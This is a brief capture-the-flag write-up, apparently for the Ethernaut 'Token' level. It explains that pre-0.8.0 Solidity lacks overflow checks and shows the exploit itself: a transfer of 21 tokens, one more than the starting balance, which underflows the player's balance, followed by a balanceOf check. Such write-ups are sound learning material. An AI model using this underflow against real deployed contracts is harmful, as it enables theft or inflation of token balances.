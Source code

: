 #Token

Given the hint, odometers overflow when they reach their maximum limit. After looking online
solidity versions prior to 0.8.0 did not have safe math checks, therefore we can call
the transfer function with a value that is 1 greater than the balance we start out with.

> await contract.transfer("0x95A098E551497cC444486dc5D313c715868263C0", 21)

Note: The address we send to does not matter

> await contract.balanceOf(player).then(v => v.toString())

Confirms our overflow
